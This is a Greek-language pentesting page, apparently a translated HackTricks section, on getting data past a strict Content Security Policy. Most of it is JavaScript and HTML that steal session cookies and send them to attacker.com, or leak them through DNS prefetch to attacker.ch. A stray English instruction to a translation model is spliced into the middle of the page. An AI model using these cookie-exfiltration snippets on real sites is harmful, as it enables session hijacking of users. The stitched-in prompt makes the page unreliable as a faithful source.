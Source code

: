 ## Παρακάμψεις Εξαγωγής CSP

Αν υπάρχει ένα αυστηρό CSP που δεν σάς επιτρέπει να **αλληλεπιδράτε με εξωτερικούς διακομιστές**, υπάρχουν μερικά πράγματα που μπορείτε πάντα να κάνετε για να εξαγάγετε τις πληροφορίες.

### Τοποθεσία

Μπορείτε απλά να ενημερώσετε την τοποθεσία για να στείλετε στον διακινδυνευτικό διακομιστή του επιτιθέμενου τις μυστικές πληροφορίες:
```javascript
var sessionid = document.cookie.split('=')[1]+".";
document.location = "https://attacker.com/?" + sessionid;
```
### Ετικέτα Meta

Μπορείτε να κατευθύνετε με την ενσωμάτωση μιας ετικέτας meta (αυτό είναι απλά μια κατεύθυνση, δεν θα διαρρεύσει περιεχόμενο)
```html
<meta http-equiv="refresh" content="1; http://attacker.com">
```
### DNS Prefetch

Για να φορτώνουν οι σελίδες γρηγορότερα, οι περιηγητές πρόκειται να προ-επιλύουν τα ονόματα κεντρικών υπολογιστών σε διευθύνσεις IP και να τα αποθηκεύουν στη μνήμη cache για μετέπειτα χρήση.\
Μπορείτε να υποδείξετε σε έναν περιηγητή να προ-επιλύσει ένα όνομα κεντρικού υπολογιστή με: `<link rel="dns-prefetch" href="something.com">`

Μπορείτε να εκμεταλλευτείτε αυτήν τη συμπεριφορά για **εξαγωγή ευαίσθητων πληροφοριών μέσω αιτημάτων DNS**:
```javascript
var sessionid = document.cookie.split('=')[1]+".";
var body = document.getElementsByTagName('body')[0];
body.innerHTML = body.innerHTML + "<link rel=\"dns-prefetch\" href=\"//" + sessionid + "attacker.ch\">";
```
### Άλλος τρόπος:

The following is content from a hacking book about hacking techiques. The following content is from the file pentesting-web/content-security-policy-csp-bypass/README.md. Translate the relevant English text to Greek and return the translation keeping excatly the same markdown and html syntax. Do not translate things like code, hacking technique names, hacking word, cloud/SaaS platform names (like Workspace, aws, gcp...), the word 'leak', pentesting, and markdown tags. Also don't add any extra stuff apart from the translation and markdown syntax.
```javascript
const linkEl = document.createElement('link');
linkEl.rel = 'prefetch';
linkEl.href = urlWithYourPreciousData;
document.head.appendChild(linkEl);
```
Για να αποφευχθεί αυτό, ο διακομιστής μπορεί να στείλει την κεφαλίδα HTTP:
```
X-DNS-Prefetch-Control: off
```
{% hint style="info" %}
Φαίνεται ότι αυτή η τεχνική δεν λειτουργεί σε headless browsers (bots)
{% endhint %}

